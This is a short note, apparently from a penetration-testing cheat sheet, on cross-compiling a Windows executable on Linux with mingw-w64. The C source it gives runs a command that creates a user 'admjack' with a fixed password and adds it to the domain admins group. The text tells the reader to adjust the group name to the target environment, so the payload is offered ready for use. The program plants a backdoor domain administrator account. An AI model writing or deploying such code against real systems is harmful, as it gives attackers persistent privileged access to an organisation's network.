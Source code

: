 # Compile a Windows Executable From a Linux Host

Install the cross-compiler:

``` bash
sudo aptitude install mingw-w64
```

In file `adddom.c`:

``` c
#include <stdlib.h>
#include <windows.h>

int main(void)
{
  system("cmd.exe /c net user admjack P@$$word /ADD && net group \"Admins du domaine\" admjack /ADD /DOMAIN");
  return 0;
}
```

*Do not forget to modify the group name regarding your environment.*

Then:

``` bash
i586-mingw32msvc-gcc -static adddom.c -o adddom.exe
```
